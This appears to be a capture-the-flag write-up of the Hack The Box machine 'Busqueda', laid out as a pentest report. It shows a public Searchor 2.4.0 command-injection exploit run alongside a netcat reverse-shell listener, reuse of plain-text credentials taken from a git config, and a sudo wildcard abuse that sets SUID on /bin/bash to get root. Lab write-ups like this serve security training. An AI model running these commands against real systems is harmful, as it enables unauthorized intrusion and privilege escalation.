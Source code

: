 ```yaml
---
title: "HTB | BUSQUEDA"
date: 2024-07-11 00:00:00 +0800
categories: [HTB]
tags: [Linux]                    
---
```


![img-description](/assets/img/HTB/htb.png)

## Initial Access - Publicly Available Exploit leads to RCE

**Vulnerability Explanation:** The web application is running, 'Searchor 2.4.0', which has a publicly available exploit on github. Using the exploit leads to RCE.

**Vulnerability Fix:** Update the web application to the latest patch or remove it if not needed.

**Severity:** Critical

**Steps to reproduce the attack:** The initial scan revealed that TCP port 80 is open. After adding 'searcher.htb' to /etc/hosts, Christian discovered a vulnerable version of 'Searchor' running. A public exploit was found off of github and used to gain inital access.

**Port Scan Results**

**TCP:** 22, 80

**UDP:** NA

Use autorecon to scan the target for open ports. Autorecon is an automated tool for basic enumeration well suited for CTFs where generating a lot of noise is not an issue. For this case, we will use it primarily for basic service enumeration.

TCP port 22, 80 was discovered.

* [https://github.com/Tib3rius/AutoRecon](https://github.com/Tib3rius/AutoRecon)

```shell
sudo autorecon 10.10.11.208
```
![img-description](/assets/img/HTB/BUSQUEDA/1.png)

Add 'search.htb' to the /etc/hosts file on your local machine so that we can access the site on port 80.

```shell
sudo nano /etc/hosts
```

![img-description](/assets/img/HTB/BUSQUEDA/2.png)

Upon inspecting the web application. It reveals that it is using something called 'Searchor 2.4.0'.

![img-description](/assets/img/HTB/BUSQUEDA/3.png)

![img-description](/assets/img/HTB/BUSQUEDA/4.png)

A publicly availble exploit can be found on github.

* [https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection)

![img-description](/assets/img/HTB/BUSQUEDA/5.png)

Download it to our host machine and run it along side a netcat listener to obtain a reverse shell

```shell
chmod +x exploit.sh
```
```shell
./exploit.sh searcher.htb 10.10.16.2
```
```shell
nc -nlvp 9001
```
![img-description](/assets/img/HTB/BUSQUEDA/6.png)

![img-description](/assets/img/HTB/BUSQUEDA/7.png)

We have successfully obtained initial access to the target machine as user 'svc'.

## Privilege Escalation - Exposed Credentials in Git Config File + Sudo Privileges

**Vulnerability Explanation:** An exposed set of credentials was found in the git configuration file. This password in this file is also used as the password to the 'svc' user. 'svc' has sudo privleges to the command vulnerable command which can be exploited to gain code execution as the root user.

**Vulnerability Fix:** 'cody' and 'svc' have their credentials compromised. Change it as soon as possible. Remove access to the git config file unless needed and remove the password from the git config file. Remove sudo privileges from 'svc' if not needed.

**Severity:** Critical

**Steps to reproduce the attack:** Christian found plain text credentials in the git configuration file. The password of the credentials is also the password to the user account 'svc'. With this, he was able to view 'svc's' sudo privileges of "/usr/bin/python3 /opt/scripts/system-checkup.py *". He created a script that would set permissions for /bin/bash and had it executed via the available sudo command. Gained a root shell by calling /bin/bash with the flag -p.

Move into the '.git' directory and inspect the 'config' file. Credentials for user 'cody' are found within the file.

```shell
cd .git
```
```shell
cat config
```

![img-description](/assets/img/HTB/BUSQUEDA/8.png)

After a bit of bruteforcing with the newly found password, user 'svc' uses the same password. We can access svc's sudo privileges with the password.

```shell
sudo -l
```

![img-description](/assets/img/HTB/BUSQUEDA/9.png)

'svc' has sudo privs to a service called system-checkup.py along with a wildcard. We can use this to creat a malicious shell script that that will be executed with our sudo privs.

Adding the malicous script and giving it the proper permissions allows us to run the command and elevate our privs to 'root'.

```shell
echo -e '#! /bin/bash\nchmod u+s /bin/bash' > full-checkup.sh && chmod +x full-checkup.sh
```
```shell
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```
```shell
/bin/bash -p
```

![img-description](/assets/img/HTB/BUSQUEDA/10.png)

![img-description](/assets/img/HTB/BUSQUEDA/11.png)

## Post Exploitation

Since this is a CTF the objective is only to retreive the flag located in the /root directory as a privileged user. 

In a real world assessment, we would attempt to add a back door for continuous access to the machine.
